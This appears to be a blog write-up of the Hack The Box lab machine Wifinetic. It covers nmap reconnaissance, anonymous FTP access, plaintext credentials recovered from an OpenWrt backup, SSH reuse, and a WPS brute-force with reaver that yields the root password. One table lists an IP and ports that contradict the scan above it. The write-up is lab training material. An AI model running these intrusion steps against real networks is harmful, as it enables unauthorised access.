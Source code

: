 ```yaml
---
layout: post
title: Hack The Box - Wifinetic Writeup
date: 2024-07-20 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![valentineBadge.png](/assets/img/Wifinetic/wifineticBadge.png)

## Summary

By using anonymous login, I was able to access `ftp` server. There are several files listed there, so I downloaded them to my local machine for further inspection. Most interesting file is `backup-OpenWrt-2023-07-26.tar`. After extracting backup file, I got access to `/etc/` directory. By inspecting contents of files inside, I found valid credentials that allowed me to `ssh` into the system as user `netadmin`. While enumerating system as user `netadmin` I discovered wireless interfaces and used `iwconfig` to display more information about them. One of these interfaces, namely `mon0`, was in monitor mode. This can be exploited by doing WPS brute-force. To perform this attack we need wireless interface in monitoring mode (`mon0`) and BSSID of the Access Point. To obtain BSSID, I used `iw dev` command. 
I was able to perform this attack using `reaver` tool, which was pre-installed on the system. A successful attack resulted in obtaining WPA password, which can be used to gain root access to the system.

## Reconnaissance

### Nmap

```bash
nmap -sV -sC -p- -oN ./nmapAll.txt --max-retries=1 10.10.11.247
```

```
PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31  2023 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31  2023 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31  2023 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11  2023 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31  2023 employees_wellness.pdf
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80, 443 |

#### Port 21

Anonymous access is allowed so I was able to log in. 

```bash
ftp anonymous@10.10.11.247
```

![ftp.png](/assets/img/Wifinetic/ftp.png)

By inspecting documents, I collected several usernames that could come in handy later.

```
HR Manager
samantha.wood93@wifinetic.htb
```

```
Oliver Walker
Wireless Network Administrator
olivia.walker17@wifinetic.htb
```

More interesting is `OpenWrt` backup file.
##### Backup archive 

After extracting `.tar` archive I was presented with these files:

![etc2.png](/assets/img/Wifinetic/etc2.png)

`passwd` file immediately caught my attention because it could contain valid accounts. We can see that there is only one account that looks interesting and it is `netadmin`. 

![etcPasswd.png](/assets/img/Wifinetic/etcPasswd.png)

By analyzing files in `/etc/config` directory, I found plaintext password in `wireless` file.  

![configWirteless2.png](/assets/img/Wifinetic/configWirteless2.png)

```
VeRyUniUqWiFIPasswrd1!
```

## Exploitation

### Initial Foothold

The credentials discovered during the enumeration phase are valid for `SSH` access to the system. 

```
netadmin : VeRyUniUqWiFIPasswrd1!
```

![sshLogin.png](/assets/img/Wifinetic/sshLogin.png)

## Post Exploitation

### Information Gathering

I used `ip` command to display all network interfaces which revealed multiple wireless interfaces.

```bash
ip addr
```

![ipaddr.png](/assets/img/Wifinetic/ipaddr.png)

I used `iwconfig` to display more information related to wireless interfaces. 

```bash
iwconfig
```

![iwconfig.png](/assets/img/Wifinetic/iwconfig.png)

It is worth noting that the `mon0` interface is in monitor mode. Monitor mode allows `wifi` interface to monitor all traffic on the wireless network. 

### Privilege Escalation

#### WPS Bruteforce

To perform this attack, I used tool called `reaver` which was already installed on system. In order to successfully perform this attack we need few things. First we need to specify interface which is in monitoring mode (`mon0`) and BSSID of the Access Point. To obtain BSSID, I used `iw dev` command.

```bash
iw dev
```

![iwdev2.png](/assets/img/Wifinetic/iwdev2.png)

Now with all information needed we can perform the attack.

```bash
reaver -i mon0 -b 02:00:00:00:00:00
```

![reaver.png](/assets/img/Wifinetic/reaver.png)

Attack was successful and I obtained WPA password.

```
WhatIsRealAnDWhAtIsNot51121!
```

This password can be used to get root access to the system. 

![escalation.png](/assets/img/Wifinetic/escalation.png)

### Root Flag

![rootFlag.png](/assets/img/Wifinetic/rootFlag.png)